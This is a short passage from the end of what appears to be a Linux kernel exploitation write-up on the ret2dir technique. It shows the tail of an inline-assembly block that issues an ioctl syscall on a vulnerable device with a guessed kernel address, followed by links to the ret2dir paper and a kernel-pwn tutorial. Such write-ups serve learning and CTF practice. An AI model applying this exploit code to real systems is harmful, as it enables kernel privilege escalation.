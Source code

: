 ```c
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)